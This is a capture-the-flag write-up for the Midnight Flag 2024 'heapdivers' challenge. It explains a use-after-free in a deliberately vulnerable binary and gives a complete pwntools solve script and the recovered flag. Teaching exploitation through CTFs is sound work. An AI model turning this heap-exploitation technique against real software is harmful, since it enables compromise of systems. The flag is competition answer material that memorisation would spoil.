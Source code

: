 ```yaml
---
title: heapdivers - Midnight Flag 2024 Quals
slug: midnight-flag-2024-quals-heapdivers
authors: redacean
tags: [ midnight flag, heap, pwn, x86, use-after-free ]
image: /img/midnight-flag.png
---
```


This heap challenge consists in exploiting a use-after-free vulnerability to call a _win_ function and print the flag.
It was part of the Midnight Flag 2024 Quals CTF which took place in April 2024.

<!-- truncate -->

The binary prompts the user for a character and different functions will be called depending on the character supplied.
After taking a look at what each function does, the pattern becomes clear:

1. enter _'s'_ to call the `earth` function and leak the address of the `plant_the_flag` function that prints the flag
2. enter _'e'_ to call the `eagle` function and make the heap size grow
3. enter _'x'_ to call the `extraction` function and free the function pointer
4. enter _'l'_ to call the `quasar` function and overwrite the value pointed to by the function pointer — which was just deallocated — with the address of the `plant_the_flag` function

The above steps yield the script below.

```python title="solve.py" showLineNumbers
from pwn import *

context.log_level = 'debug'
context.arch = 'x86'

io = process('./heapdivers')
# io = remote('13.38.208.179', 10583)

io.sendafter(b'[F]lee\n', b's\n')
io.recvuntil(b'Wow, Is this a memory leak ? 0x')
win_addr = io.recvline().strip()
win_addr = int(win_addr, 16)
print('Win function address: 0x%x' % win_addr)
print(p32(win_addr))

io.sendafter(b'[F]lee\n', b'e\n')
io.sendafter(b'Please announce your code name\n', b'A'*0x100 + b'\n')

io.sendafter(b'[F]lee\n', b'x\n')
io.sendafter(b'Do you really want to extract helldivers ?[Y/N]\n', b'y\n')

io.sendafter(b'[F]lee\n', b'l\n')
io.recvuntil(b'A word for the end ?\n')
io.sendline(p32(win_addr))

io.stream()
```

The remote process returns the flag `MCTF{R@1s3_Fl@g_0f_Sup3r_3arth}`.
